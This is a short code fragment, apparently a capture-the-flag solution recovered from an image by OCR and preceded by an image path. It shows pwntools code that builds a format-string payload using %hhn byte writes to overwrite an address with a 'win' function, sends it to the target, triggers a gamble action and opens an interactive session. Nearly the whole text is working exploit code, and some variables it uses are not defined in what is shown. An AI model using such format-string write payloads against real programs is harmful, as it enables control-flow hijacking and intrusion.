 ```
payload += f"%{second_byte}x%6$hhn".encode()

#third_byte = u8(p32(win)[2]) + 0x100 - u8(p32(win)[1])
payload += f"%{third_byte}x%7$hhn".encode()

#fourth_byte = u8(p32(win)[3]) + 0x100 - u8(p32(win)[2])
payload += f"%{fourth_byte}x%8$hhn".encode()

p.sendline(payload)

p.recvuntil(b'do? ', drop=True)
p.sendline("g")
auto_gamble(0)


p.interactive()
```